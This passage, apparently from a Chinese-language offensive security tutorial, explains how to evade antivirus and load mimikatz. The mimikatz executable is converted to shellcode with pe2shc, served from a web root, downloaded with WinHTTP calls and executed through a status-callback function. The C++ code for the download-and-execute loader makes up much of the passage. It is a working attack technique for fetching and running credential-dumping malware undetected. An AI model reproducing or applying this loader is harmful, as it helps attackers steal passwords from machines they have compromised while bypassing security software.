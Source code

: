             LoadSc(lpOutBuffer);//这个函数定义在上面  
        }  
    }  
    

成功上线  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121455.png)

## 免杀加载mimikatz

mimikatz本身是我是没有做任何免杀的

效果如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121456.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121458.png)  
不过因为存在杀软的原因，所以还是无法读取密码,不过至少达到我们加载mimikatz的目的了

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121459.png)

实现如下 ：

这里我们需要用到github上的一个项目,这是地址https://github.com/hasherezade/pe\\_to\\_shellcode

我们需要用到里面的pe2shc.exe这个文件，它可以把exe文件变成shellcode  
`pe2shc.exe mimikatz文件 mimimi.txt`  
随后会生成一个mimimi.txt文件，我们把它放在我们的网站根目录下

读取mimimi.txt  
这里使用WinHttpQueryDataAvailable获取数据大小然后使用WinHttpReadData来读取数据，最后利用WinHttpSetStatusCallback设置回调函数执行

在Winhttpconnect里填写网站对应的ip，端口，在WinHttpOpenRequest里填写对应要访问的文件(我这里是刚才生成的mimimi.txt)

    
    
    HINTERNET hSession = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
    HINTERNET hConnect = WinHttpConnect(hSession, L"127.0.0.1", 80, 0);  
    HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"GET", L"mimimi.txt", L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);  
    

随后调用WinHttpSendRequest和WinHttpReceiveResponse

    
    
    BOOL bResults = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);  
    bResults = WinHttpReceiveResponse(hRequest, NULL);  
    

最后WinHttpReadDat读取，设置回调函数执行

    
    
    DWORD dwSize = 0;  
    //hRequest是之前WinHttpOpenRequest返回的句柄  
    if (!WinHttpQueryDataAvailable(hRequest, &dwSize))  
    {  
            printf("Error %u in WinHttpQueryDataAvailable.\n",  
                    GetLastError());  
            break;  
    }  
    if (!dwSize)  
            break;  
    dwSize = dwSize * 4000;  
    //这里我乘以4000是因为获取的大小老是小于mimimi.txt文件的大小，所以我直接干脆乘以4000，以防万一  
      